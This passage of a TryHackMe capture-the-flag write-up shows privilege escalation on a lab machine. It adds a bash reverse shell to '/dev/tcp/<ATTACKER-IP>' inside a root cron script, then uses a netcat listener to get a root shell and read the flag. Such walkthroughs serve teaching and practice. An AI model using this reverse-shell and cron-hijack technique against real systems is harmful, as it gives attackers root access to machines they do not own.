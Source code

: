 We can add this piece of shell code, inspired from [Linux Privilege Escalation](https://tryhackme.com/room/linprivesc) from another THM room.
```
boring@kral4-PC:~$ cat /var/www/.mysecretcronjob.sh
#!/bin/bash
# i will run as root

bash -i >& /dev/tcp/<ATTACKER-IP>/<ATTACKER-PORT> 0>&1  // ADD THIS
```

#### ATTACKER MACHINE
Start a netcat listener with the attacker port which for this one is 4444.
```
$ nc -lvnp 4444           
listening on [any] 4444 ...
connect to [10.4.124.80] from (UNKNOWN) [10.10.186.123] 34788
bash: cannot set terminal process group (1873): Inappropriate ioctl for device
bash: no job control in this shell
root@kral4-PC:/var/www# cd /root
cd /root
root@kral4-PC:~# ls
ls
root@kral4-PC:~# ls -la
ls -la
total 40
drwx------  5 root root 4096 Jun 15  2020 .
drwxr-xr-x 23 root root 4096 Jun 15  2020 ..
-rw-------  1 root root    2 Mar 26 13:47 .bash_history
-rw-r--r--  1 root root 3136 Jun 15  2020 .bashrc
drwx------  2 root root 4096 Jun 13  2020 .cache
drwx------  3 root root 4096 Jun 13  2020 .gnupg
drwxr-xr-x  3 root root 4096 Jun 13  2020 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   39 Jun 15  2020 .root.txt
-rw-r--r--  1 root root   66 Jun 14  2020 .selected_editor
root@kral4-PC:~# cat .root.txt
cat .root.txt
<RETRIEVE FLAG>
```
